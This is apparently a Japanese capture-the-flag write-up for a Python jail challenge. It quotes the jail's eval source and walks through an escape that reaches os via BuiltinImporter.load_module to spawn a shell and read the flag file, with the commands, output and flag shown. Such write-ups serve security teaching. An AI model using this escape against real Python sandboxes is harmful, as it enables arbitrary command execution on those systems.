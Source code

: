 # 1linepyjail4b:Misc:100pts
[1 line :)](https://github.com/SECCON/SECCON13_online_CTF/tree/32d98bc7af7159877dd90d96b44f93d00f9e49b3/jail/1linepyjail)  

[1linepyjail4b.tar.gz](1linepyjail4b.tar.gz)  

`nc 34.170.146.252 23825`  

# Solution
ソースと接続先が渡される。  
ソースの主要部分は以下の通りであった。  
```python
print(eval(code, {"__builtins__": None}) if len(code := (input("jail> ").strip())) <= 86 else ":(")
```
86文字以下のpyjailのようだ。  
基本的なテクニックである、`().__class__.__mro__[1].__subclasses__()`から`<class '_frozen_importlib.BuiltinImporter'>`を取り出して`load_module`でosを用いるのが短くて使いやすい。  
以下のように行う。  
```bash
$ echo '().__class__.__mro__[1].__subclasses__()' | nc 34.170.146.252 23825 | sed 's/,/\n/g' | grep -n "<class '_frozen_importlib.BuiltinImporter'>"
123: <class '_frozen_importlib.BuiltinImporter'>
$ nc 34.170.146.252 23825
jail> ().__class__.__mro__[1].__subclasses__()[122].load_module("os").system("sh")
id
uid=1000 gid=1000 groups=1000
ls /
app
bin
boot
dev
etc
flag-60aa52dce15ce59c4307375b2a53c866.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat /flag-60aa52dce15ce59c4307375b2a53c866.txt
Alpaca{m4ny_m4ny_p1zz4_3v3ryb0dy_h4ppy}
```
目的のものは123番目にあり、flagが得られた。  

## Alpaca{m4ny_m4ny_p1zz4_3v3ryb0dy_h4ppy}